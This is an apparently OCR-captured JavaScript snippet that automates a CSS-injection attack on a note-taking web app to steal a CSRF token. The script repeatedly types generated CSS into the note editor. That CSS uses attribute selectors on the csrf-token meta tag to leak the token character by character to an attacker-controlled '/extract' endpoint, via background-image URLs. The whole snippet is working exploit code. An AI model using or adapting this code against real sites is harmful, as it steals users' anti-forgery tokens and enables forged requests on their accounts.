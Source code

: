 ``` js
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}

```
